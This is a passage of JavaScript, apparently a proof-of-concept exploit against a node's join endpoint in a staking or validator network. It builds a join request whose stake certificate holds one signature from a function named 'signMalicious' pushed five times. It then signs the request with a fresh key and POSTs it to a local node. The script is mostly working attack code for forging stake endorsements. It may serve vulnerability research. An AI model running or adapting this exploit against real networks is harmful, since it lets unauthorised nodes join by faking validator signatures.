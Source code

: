 ```js
        stake: { dataType: "bi", value: "8ac7230489e80000" },
        signs: [],
      },
    },
  };
  const stakeCertSign = signMalicious(
    joinRequestPayload.appJoinData.stakeCert,
    nodeKeyPair
  ).sign;
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload.appJoinData.stakeCert.signs.push(stakeCertSign);
  joinRequestPayload = await sign(joinRequestPayload, newKeyPair);
  return joinRequestPayload;
};

// Function to submit the join request
const submitJoinRequest = async () => {
  try {
    const joinRequestPayload = await createJoinRequestPayload(
      (await fetchStartField()) + 29
    );
    const response = await fetch("http://127.0.0.1:9001/join", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify(joinRequestPayload),
    });

    if (!response.ok) {
      // Read the response body
      const errorData = await response.json();
      throw new Error(
        `Error: ${response.status} ${response.statusText} - ${JSON.stringify(
          errorData
        )}`
      );
    }

    const responseData = await response.json();
    console.log("Join request successful:", responseData);
  } catch (error) {
    console.error("Error submitting join request:", error.message);
  }
};

// Call the function to submit the join request
submitJoinRequest();

```
